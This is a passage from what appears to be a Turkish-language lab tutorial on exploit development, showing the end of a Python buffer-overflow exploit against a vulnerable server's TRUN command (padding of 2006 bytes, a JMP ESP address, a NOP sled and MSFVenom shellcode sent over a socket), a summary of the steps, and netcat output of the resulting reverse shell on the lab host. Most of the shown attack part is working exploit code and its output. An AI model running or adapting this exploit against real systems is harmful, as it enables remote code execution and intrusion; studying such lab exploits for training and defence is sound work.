 ```python
"\x16\x98\x02\xa9\x51\x18\xd9\x0a\x5f\xa1\xac\x37\x7b\xb1\x68"
"\xb7\xc7\xe5\x24\xee\x91\x53\x83\x58\x50\x0d\x5d\x36\x3a\xd9"
"\x18\x74\xfd\x9f\x24\x51\x8b\x7f\x94\x0c\xca\x80\x19\xd9\xda"
"\xf9\x47\x79\x24\xd0\xc3\x89\x6f\x78\x65\x02\x36\xe9\x37\x4f"
"\xc9\xc4\x74\x76\x4a\xec\x04\x8d\x52\x85\x01\xc9\xd4\x76\x78"
"\x42\xb1\x78\x2f\x63\x90")

nop = '\x90' * 16

karaktersiz = 'A' * 2006 + jmp_esp + nop + shellcode
i = 200

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.150.18',9999))
s.recv(1024)
s.send('TRUN .' + karaktersiz)
s.recv(1024)
s.close()
```

Not: Jmp esp register'ından sonra shellcode'a gelene kadar programın herhangi bir işlem yapmasını önlemek için No Operation (NOP ('\x90')) kodu eklemeliyiz. 4'ün katları yani minimum 16 olacak şekilde exploit kodlarımıza NOP eklemeliyiz. "İşlem yapma demektir". Bu komut, talimat akışında yer kaplayan ancak EIP kaydı hariç makine bağlamını etkilemeyen bir tek bayt'lık talimattır.

####ÖZETLE;

İlk olarak uygulamadaki crash noktasını bulduk. Offset değerini hesaplayarak kırılma noktasının 2006 karakterde olduğunu tespit ettik. Daha sonra Mona kullanarak uygulama üzerinde JMP ESP instructor'ı bulduk. ('\xAF\x11\x50\x62' #625011AF) ve bunu 2006. karakterden sonra verdik. Ve EIP register'ımıza bu jmp esp kodunu set ettik. Bu sayede ESP içerisine dolduracağımız verileri execute edebilecektik. Uygulamadaki badchar'ları tespit ettik ki bunda yoktu default olarak \x00 yani nullbyte kullandık. Program shellcode'a gelene kadar herhangi bir işlem yapmaması için kodumuza 16 tane NOP (\x90) instructor'laru ekledik. En son da MSFVenom vasıtasıyla oluşturduğumuz shellcode'u exploitimize tanımlayarak işlemimizi exploit geliştirme işlemimizi tamamladık.
Artık exploit kodumuzu çalıştırmamız durumunda normal şartlar altında hedef sistem üzerinden bir ters bağlantı alabiliriz.

```shell
┌─[root@parrot]─[/home/ixmail/Desktop]
└──╼ #nc -lvp 443
listening on [any] 443 ...
192.168.150.18: inverse host lookup failed: Unknown host
connect to [192.168.150.17] from (UNKNOWN) [192.168.150.18] 49414
Microsoft Windows [Sürüm 6.1.7601]
Telif Hakkı (c) 2009 Microsoft Corporation. Tüm hakları saklıdır.

C:\Users\ismail\Desktop\socketsrv>whoami
whoami
testenv\ismail

C:\Users\ismail\Desktop\socketsrv>echo PWNED!!! 
echo PWNED!!!
PWNED!!!

C:\Users\ismail\Desktop\socketsrv>
```

Bu döküman [İsmail SAYGILI](https://www.ismailsaygili.com.tr/p/kimdir_15.html) tarafından hazırlanmıştır.

